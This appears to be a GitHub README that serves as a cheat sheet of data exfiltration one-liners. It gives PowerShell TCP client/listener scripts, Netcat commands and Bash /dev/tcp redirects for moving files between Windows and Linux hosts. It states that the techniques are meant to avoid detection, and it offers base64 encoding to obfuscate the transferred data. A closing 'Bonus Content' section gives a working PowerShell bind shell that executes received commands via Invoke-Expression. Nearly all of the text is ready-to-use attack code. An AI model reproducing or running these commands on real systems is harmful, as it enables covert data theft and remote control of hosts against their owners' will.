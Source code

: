 # Data Exfiltration Techniques
#### This is a list of some data exfiltration techniques if you don't have access to SCP, FTP, SMB, etc. for some reason, are avoiding using them due to triggering certain detections, or just because you're feeling saucy.  I'm sure these can probably be made more efficient, but they were developed as part of a.) getting better at PowerShell, and b.) just to see if I could.

***

***

### Windows To Linux

<details>

<summary>Send a file from a remote Windows client to a local Linux host</summary>

#### Send a file from a *remote* Windows client to a *local* Linux host

![](./imgs/win-lin-rev.png)

##### If you want to send the raw contents:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup a Netcat listener on the *local* Linux host:

```
nc -lp %ListeningPort% > /path/to/store/file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the *remote* Windows client connect back with PowerShell:

```
& {$FilePath = "$pwd\file.ext"; $LHost = "%ListenerAddress%"; $LPort = %ListeningPort%; $FileContents = [System.IO.File]::ReadAllBytes($FilePath); $TCPClient = New-Object Net.Sockets.TCPClient($LHost, $LPort); $NetworkStream = $TCPClient.GetStream(); $NetworkStream.Write($FileContents, 0, $FileContents.Length); $NetworkStream.Close(); $TCPClient.Close()}
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If not running from the same directory as the file location, then change ```$pwd\file.txt``` to the proper filepath.

##### If you want to obfuscate the data being transfered by converting it to a base64 string:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup a Netcat listener on the *local* Linux host:

```
nc -lp %ListeningPort% | base64 -d > /path/to/store/file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the *remote* Windows client connect back with PowerShell:

```
& {$FilePath = "$pwd\file.ext"; $LHost = "%ListenerAddress%"; $LPort = %ListeningPort%; $Base64String = [System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes("$FilePath")); $TCPClient = New-Object Net.Sockets.TCPClient($LHost, $LPort); $NetworkStream = $TCPClient.GetStream(); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $StreamWriter.Write($Base64String); $StreamWriter.Close(); $NetworkStream.Close(); $TCPClient.Close()}
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If not running from the same directory as the file location, then change ```$pwd\file.txt``` to the proper filepath.

</details>

***

<details>

<summary>Retrieve a file from a remote Windows client to a local Linux host</summary>

#### Retrieve a file from a *remote* Windows client to a *local* Linux host

![](./imgs/win-lin-bind.png)

##### If you want to send the raw contents:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup a PowerShell listener on the *remote* Windows client:

```
& {$FilePath = "$pwd\file.ext"; $LPort = %ListeningPort%; $Listener = [System.Net.Sockets.TcpListener]::Create($LPORT); $Listener.Start(); $TCPClient = $Listener.AcceptTcpClient(); $NetworkStream = $TCPClient.GetStream(); $FileContents = [System.IO.File]::ReadAllBytes($FilePath); $NetworkStream.Write($FileContents, 0, $FileContents.Length); $NetworkStream.Close(); $TCPClient.Close(); $Listener.Stop()}
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If not running from the same directory as the file location, then change ```$pwd\file.txt``` to the proper filepath.

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the *local* Linux host connect back with Netcat:

```
nc %ListenerAddress% %ListeningPort% > /path/to/store/file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If Netcat is unavailable, on the *local* Linux host connect back with Bash:

```
cat < /dev/tcp/%ListenerAddress%/%ListenerPort% > /path/to/store/file.ext
```

##### If you want to obfuscate the data being transfered by converting it to a base64 string:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup a PowerShell listener on the *remote* Windows client:

```
& {$FilePath = "$pwd\file.ext"; $LPort = %ListeningPort%; $Base64String = [System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes("$FilePath")); $Listener = [System.Net.Sockets.TcpListener]::Create($LPORT); $Listener.Start(); $TCPClient = $Listener.AcceptTcpClient(); $NetworkStream = $TCPClient.GetStream(); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $StreamWriter.Write($Base64String); $StreamWriter.Close(); $NetworkStream.Close(); $TCPClient.Close(); $Listener.Stop()}
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If not running from the same directory as the file location, then change ```$pwd\file.txt``` to the proper filepath.

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the *local* Linux host connect back with Netcat:

```
nc %ListenerAddress% %ListeningPort% | base64 -d > /path/to/store/file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If Netcat is unavailable, on the *local* Linux host connect back with Bash:

```
cat < /dev/tcp/%ListenerAddress%/%ListenerPort% | base64 -d > /path/to/store/file.ext
```

</details>

***

***

### Linux To Windows

<details>

<summary>Send a file from a remote Linux client to a local Windows host</summary>

#### Send a file from a *remote* Linux client to a *local* Windows host

![](./imgs/lin-win-rev.png)

##### If you want to send the raw contents:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup a PowerShell listener on the *local* Windows host:

```
& {$FilePath = "$pwd\file.ext"; $LPort = %ListeningPort%; $Listener = [System.Net.Sockets.TcpListener]::Create($LPort); $Listener.Start(); $TCPClient = $Listener.AcceptTcpClient(); $NetworkStream = $TCPClient.GetStream(); $File = [System.IO.File]::OpenWrite("$FilePath"); $Buffer = New-Object byte[] 1024; while ($true) { $BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length); if ($BytesRead -eq 0) { break }; $File.Write($Buffer, 0, $BytesRead) }; $File.Close(); $NetworkStream.Close(); $TCPClient.Close(); $Listener.Stop()}
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If not running from the same directory as the file location, then change ```$pwd\file.txt``` to the proper filepath.

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the *remote* Linux client connect back with Netcat:

```
nc -q 0 %ListenerAddress% %ListeningPort% < /path/to/sending/file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If Netcat is unavailable, on the *remote* Linux client connect back with Bash:

```
cat /path/to/sending/file.ext >& /dev/tcp/%ListenerAddress%/%ListenerPort%
```

##### If you want to obfuscate the data being transfered by converting it to a base64 string:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup a PowerShell listener on the *local* Windows host:

```
& {$FilePath = "$pwd\file.ext"; $LPort = %ListeningPort%; $Listener = [System.Net.Sockets.TcpListener]::Create($LPort); $Listener.Start(); $TCPClient = $Listener.AcceptTcpClient(); $NetworkStream = $TCPClient.GetStream(); $Buffer = New-Object byte[] 1024; while ($true) { $BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length); if ($BytesRead -eq 0) { break }; $Data = [System.Text.Encoding]::ASCII.GetString($Buffer, 0, $BytesRead); $Contents = $Contents + $Data }; $Base64String = [Convert]::FromBase64String($Contents); [IO.File]::WriteAllBytes("$FilePath", $Base64String); $NetworkStream.Close(); $TCPClient.Close(); $Listener.Stop()}
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If not running from the same directory as the file location, then change ```$pwd\file.txt``` to the proper filepath.

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the *remote* Linux client connect back with Netcat:

```
base64 -w0 /path/to/sending/file.ext | nc -q 0 %ListenerAddress% %ListeningPort%
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If Netcat is unavailable, on the *remote* Linux client connect back with Bash:

```
base64 -w0 /path/to/sending/file.ext >& /dev/tcp/%ListenerAddress%/%ListenerPort%
```

</details>

***

<details>

<summary>Retrieve a file from a remote Linux client to a local Windows host</summary>

#### Retrieve a file from a *remote* Linux client to a *local* Windows host

![](./imgs/lin-win-bind.png)

##### If you want to send the raw contents:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup a Netcat listener on the *remote* Linux client:

```
nc -q 0 -lp %ListenerPort% < /path/to/sending/file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the *local* Windows host connect back with PowerShell:

```
& {$FilePath = "$pwd\file.ext"; $LHost = "%ListenerAddress%"; $LPort = %ListeningPort%; $TCPClient = New-Object Net.Sockets.TCPClient($LHost, $LPort); $NetworkStream = $TCPClient.GetStream(); $File = [System.IO.File]::OpenWrite("$FilePath"); $Buffer = New-Object byte[] 1024; while ($true) { $BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length); if ($BytesRead -eq 0) { break }; $File.Write($Buffer, 0, $BytesRead) }; $File.Close(); $NetworkStream.Close(); $TCPClient.Close()}
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If not running from the same directory as the file location, then change ```$pwd\file.txt``` to the proper filepath.

##### If you want to obfuscate the data being transfered by converting it to a base64 string:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup a Netcat listener on the *remote* Linux client:

```
base64 -w0 /path/to/sending/file.ext | nc -q 0 -lp %ListeningPort%
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the *local* Windows host connect back with PowerShell:

```
& {$FilePath = "$pwd\file.ext"; $LHost = "%ListenerAddress%"; $LPort = %ListeningPort%; $TCPClient = New-Object Net.Sockets.TCPClient($LHost, $LPort); $NetworkStream = $TCPClient.GetStream(); $Buffer = New-Object byte[] 1024; while ($true) { $BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length); if ($BytesRead -eq 0) { break }; $Data = [System.Text.Encoding]::ASCII.GetString($Buffer, 0, $BytesRead); $Contents = $Contents + $Data }; $Base64String = [Convert]::FromBase64String($Contents); [IO.File]::WriteAllBytes("$FilePath", $Base64String); $NetworkStream.Close(); $TCPClient.Close()}
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If not running from the same directory as the file location, then change ```$pwd\file.txt``` to the proper filepath.

</details>

***

***

### Linux To Linux

<details>

<summary>Send file from remote Linux client to local Linux host</summary>

#### Send file from *remote* Linux client to *local* Linux host

![](./imgs/lin-lin-rev.png)

##### If you want to send the raw contents:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup a Netcat listener on the *local* Linux host:

```
nc -lp port > /path/to/store/file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the *remote* Linux client connect back with Netcat:

```
nc -q 0 %ListenerAddress% %ListeningPort% < /path/to/sending/file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If Netcat is unavailable, on the *remote* Linux client connect back with Bash:

```
cat /path/to/sending/file.ext > /dev/tcp/%ListenerAddress%/%ListenerPort%
```

##### If you want to obfuscate the data being transfered by converting it to a base64 string:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup a Netcat listener on the *local* Linux host:

```
nc -lp %ListeningPort% | base64 -d > /path/to/store/file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the *remote* Linux client connect back with Netcat:

```
base64 -w0 /path/to/sending/file.ext | nc -q 0 %ListenerAddress% %ListeningPort%
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If Netcat is unavailable, on the *remote* Linux client connect back with Bash:

```
base64 -w0 /path/to/sending/file.ext > /dev/tcp/%ListenerAddress%/%ListenerPort%
```

</details>

***

<details>

<summary>Retrieve a file from a remote Linux client to a local Linux host</summary>

#### Retrieve a file from a *remote* Linux client to a *local* Linux host

![](./imgs/lin-lin-bind.png)

##### If you want to send the raw contents:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup a Netcat listener on the *remote* Linux client:

```
nc -q 0 -lp %ListenerPort% < /path/to/sending/file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the *local* Linux host connect back with Netcat:

```
nc %ListenerAddress% %ListeningPort% > /path/to/store/file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If Netcat is unavailable, on the *local* Linux host connect back with Bash:

```
cat < /dev/tcp/%ListenerAddress%/%ListenerPort% > /path/to/store/file.ext
```

##### If you want to obfuscate the data being transfered by converting it to a base64 string:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup a Netcat listener on the *remote* Linux client:

```
base64 -w0 /path/to/sending/file.ext | nc -q 0 -lp %ListeningPort%
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the *local* Linux host connect back with Netcat:

```
nc %ListenerAddress% %ListeningPort% | base64 -d > /path/to/store/file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If Netcat is unavailable, on the *local* Linux host connect back with Bash:

```
cat < /dev/tcp/%ListenerAddress%/%ListenerPort% | base64 -d > /path/to/store/file.ext
```

</details>

***

***

### Windows To Windows

<details>

<summary>Send file from remote Windows client to local Windows host</summary>

#### Send file from *remote* Windows client to *local* Windows host

![](./imgs/win-win-rev.png)

##### If you want to send the raw contents:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup a PowerShell listener on the *local* Windows host:

```
& {$FilePath = "$pwd\file.ext"; $LPort = %ListeningPort%; $Listener = [System.Net.Sockets.TcpListener]::Create($LPort); $Listener.Start(); $TCPClient = $Listener.AcceptTcpClient(); $NetworkStream = $TCPClient.GetStream(); $File = [System.IO.File]::OpenWrite("$FilePath"); $Buffer = New-Object byte[] 1024; while ($true) { $BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length); if ($BytesRead -eq 0) { break }; $File.Write($Buffer, 0, $BytesRead) }; $File.Close(); $NetworkStream.Close(); $TCPClient.Close(); $Listener.Stop()}
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If not running from the same directory as the file location, then change ```$pwd\file.txt``` to the proper filepath.

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the *remote* Windows client connect back with PowerShell:

```
& {$FilePath = "$pwd\file.ext"; $LHost = "%ListenerAddress%"; $LPort = %ListeningPort%; $FileContents = [System.IO.File]::ReadAllBytes($FilePath); $TCPClient = New-Object Net.Sockets.TCPClient($LHost, $LPort); $NetworkStream = $TCPClient.GetStream(); $NetworkStream.Write($FileContents, 0, $FileContents.Length); $NetworkStream.Close(); $TCPClient.Close()}
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If not running from the same directory as the file location, then change ```$pwd\file.txt``` to the proper filepath.

##### If you want to obfuscate the data being transfered by converting it to a base64 string:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup a PowerShell listener on the *local* Windows host:

```
& {$FilePath = "$pwd\file.ext"; $LPort = %ListeningPort%; $Listener = [System.Net.Sockets.TcpListener]::Create($LPort); $Listener.Start(); $TCPClient = $Listener.AcceptTcpClient(); $NetworkStream = $TCPClient.GetStream(); $Buffer = New-Object byte[] 1024; while ($true) { $BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length); if ($BytesRead -eq 0) { break }; $Data = [System.Text.Encoding]::ASCII.GetString($Buffer, 0, $BytesRead); $Contents = $Contents + $Data }; $Base64String = [Convert]::FromBase64String($Contents); [IO.File]::WriteAllBytes("$FilePath", $Base64String); $NetworkStream.Close(); $TCPClient.Close(); $Listener.Stop()}
```
###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If not running from the same directory as the file location, then change ```$pwd\file.txt``` to the proper filepath.

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the *remote* Windows client connect back with PowerShell:

```
& {$FilePath = "$pwd\file.ext"; $LHost = "%ListenerAddress%"; $LPort = %ListeningPort%; $Base64String = [System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes("$FilePath")); $TCPClient = New-Object Net.Sockets.TCPClient($LHost, $LPort); $NetworkStream = $TCPClient.GetStream(); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $StreamWriter.Write($Base64String); $StreamWriter.Close(); $NetworkStream.Close(); $TCPClient.Close()}
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If not running from the same directory as the file location, then change ```$pwd\file.txt``` to the proper filepath.

</details>

***

<details>

<summary>Retrieve a file from a remote Windows client to a local Windows host</summary>

#### Retrieve a file from a *remote* Windows client to a *local* Windows host

![](./imgs/win-win-bind.png)

##### If you want to send the raw contents:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup a PowerShell listener on the *remote* Windows client:

```
& {$FilePath = "$pwd\file.ext"; $LPort = %ListeningPort%; $Listener = [System.Net.Sockets.TcpListener]::Create($LPort); $Listener.Start(); $TCPClient = $Listener.AcceptTcpClient(); $NetworkStream = $TCPClient.GetStream(); $FileContents = [System.IO.File]::ReadAllBytes($FilePath); $NetworkStream.Write($FileContents, 0, $FileContents.Length); $NetworkStream.Close(); $TCPClient.Close(); $Listener.Stop()}
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If not running from the same directory as the file location, then change ```$pwd\file.txt``` to the proper filepath.

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the *local* Windows host connect back with PowerShell:

```
& {$FilePath = "$pwd\file.ext"; $LHost = "%ListenerAddress%"; $LPort = %ListeningPort%; $TCPClient = New-Object Net.Sockets.TCPClient($LHost, $LPort); $NetworkStream = $TCPClient.GetStream(); $File = [System.IO.File]::OpenWrite("$FilePath"); $Buffer = New-Object byte[] 1024; while ($true) { $BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length); if ($BytesRead -eq 0) { break }; $File.Write($Buffer, 0, $BytesRead) }; $File.Close(); $NetworkStream.Close(); $TCPClient.Close()}
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If not running from the same directory as the file location, then change ```$pwd\file.txt``` to the proper filepath.

##### If you want to obfuscate the data being transfered by converting it to a base64 string:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup a PowerShell listener on the *remote* Windows client:

```
& {$FilePath = "$pwd\file.ext"; $LPort = %ListeningPort%; $Base64String = [System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes("$FilePath")); $Listener = [System.Net.Sockets.TcpListener]::Create($LPORT); $Listener.Start(); $TCPClient = $Listener.AcceptTcpClient(); $NetworkStream = $TCPClient.GetStream(); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $StreamWriter.Write($Base64String); $StreamWriter.Close(); $NetworkStream.Close(); $TCPClient.Close(); $Listener.Stop()}
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If not running from the same directory as the file location, then change ```$pwd\file.txt``` to the proper filepath.

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the *local* Windows host connect back with PowerShell:

```
& {$FilePath = "$pwd\file.ext"; $LHost = "%ListenerAddress%"; $LPort = %ListeningPort%; $TCPClient = New-Object Net.Sockets.TCPClient($LHost, $LPort); $NetworkStream = $TCPClient.GetStream(); $Buffer = New-Object byte[] 1024; while ($true) { $BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length); if ($BytesRead -eq 0) { break }; $Data = [System.Text.Encoding]::ASCII.GetString($Buffer, 0, $BytesRead); $Contents = $Contents + $Data }; $Base64String = [Convert]::FromBase64String($Contents); [IO.File]::WriteAllBytes("$FilePath", $Base64String); $NetworkStream.Close(); $TCPClient.Close()}
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If not running from the same directory as the file location, then change ```$pwd\file.txt``` to the proper filepath.

</details>

***

***

<details>

<summary>Bonus Content</summary>

#### Bonus Content

##### PowerShell Bind Shell:

```
& {$LPort = %ListeningPort%; $Listener = [System.Net.Sockets.TcpListener]::Create($LPort); $Listener.Start(); $TCPClient = $Listener.AcceptTCPClient(); $NetworkStream = $TCPClient.GetStream(); $StreamWriter = [System.IO.StreamWriter]::new($NetworkStream); $StreamWriter.AutoFlush = $true; $Buffer = [System.Byte[]]::new(1024); while (($RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -ne 0) {$Code = [Text.Encoding]::ASCII.GetString($Buffer, 0, $RawData); try {$Output = Invoke-Expression $Code 2>&1 | Out-String;} catch {$Output = $_.Exception.Message}; $Prompt = "PS $($PWD.Path)> "; $FullOutput = $Output + "`n" + $Prompt; $StreamWriter.Write($FullOutput); $Code = $null}; $TCPClient.Close(); $NetworkStream.Close(); $StreamWriter.Close(); $Listener.Stop()}
```

##### PowerShell Listener:

```
& {$LPort = %ListeningPort%; $Listener = [System.Net.Sockets.TcpListener]::Create($LPort); $Listener.Start(); Write-Output "Listening on port $LPort..."; $TCPClient = $Listener.AcceptTCPClient(); Write-Output "Client connected."; $NetworkStream = $TCPClient.GetStream(); $StreamWriter = [System.IO.StreamWriter]::new($NetworkStream); $StreamWriter.AutoFlush = $true; $Buffer = [System.Byte[]]::new(1024); while ($TCPClient.Connected) { try { $Input = Read-Host; $StreamWriter.Write($Input + "`n"); $Count = 0; if ($Input -eq "exit") { break } do { $NetworkStream.ReadTimeout = 50; $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length); if ($Data -eq 0) { break }; $Data = [Text.Encoding]::ASCII.GetString($Buffer, 0, $RawData); $Output = $Output + $Data } while ($NetworkStream.DataAvailable); Write-Output $Output; $Output = $null; $Data = $null } catch { continue } } $StreamWriter.Close(); $NetworkStream.Close(); $TCPClient.Close(); $Listener.Stop(); Write-Output "Connection closed."}
```

</details>
